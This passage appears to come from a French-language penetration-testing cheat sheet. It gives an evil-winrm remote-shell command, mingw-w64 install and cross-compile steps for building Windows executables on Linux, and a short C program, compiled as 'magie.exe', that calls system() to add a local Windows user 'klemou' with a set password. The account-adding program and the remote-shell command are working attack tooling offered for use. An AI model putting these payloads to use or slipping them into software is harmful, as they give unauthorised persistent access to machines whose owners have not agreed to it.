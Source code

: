```bash
evil-winrm -u user -p password -i ip
```

## Psencoder

Petite auto promo :
- https://psencoder.pythonanywhere.com/

## Compilation cross OS

### Package a installé (Chat GPT édition)

```
# Debian/Ubuntu
sudo apt-get update
sudo apt-get install mingw-w64

# Fedora
sudo dnf install mingw64-gcc mingw64-gcc-c++ mingw64-winpthreads-static

# openSUSE
sudo zypper install mingw64-gcc mingw64-gcc-c++

# Arch Linux
sudo pacman -S mingw-w64-gcc

# CentOS (Utilisez EPEL pour CentOS)
sudo yum install mingw64-gcc mingw64-gcc-c++

# Alpine Linux
sudo apk add mingw-w64-gcc mingw-w64-g++ mingw-w64-headers

# Void Linux
sudo xbps-install -S mingw-w64-gcc mingw-w64-g++ mingw-w64-headers
```

### Compilation d'un EXE

```
x86_64-w64-mingw32-gcc -o magie.exe magie.c   # 64 bits
i686-w64-mingw32-gcc   -o magie.exe magie.c   # 32 bits
touch ~/.klemou_was_here                      # 128 bits
```

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv){
    system("net user klemou Sup3rP@ssword /add");
    return 0;
}
```
